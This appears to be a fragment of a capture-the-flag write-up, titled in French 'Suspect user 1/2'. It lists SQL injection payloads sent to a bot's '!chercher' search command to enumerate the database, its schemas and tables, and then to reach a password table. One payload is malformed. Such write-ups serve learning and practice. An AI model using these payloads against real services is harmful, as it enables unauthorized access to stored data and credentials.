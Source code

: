 # Utilisateur suspect 1/2

Basic SQL Injection

```
!chercher *" union select database()-- -
!chercher *" union select schema_name from information_schema.schemata-- -
!chercher cn" UNION select TABLE_NAME from INFORMATION_SCHEMA.TABLES where table_schema="data"-- -
!chercher " union select from password-- -
```
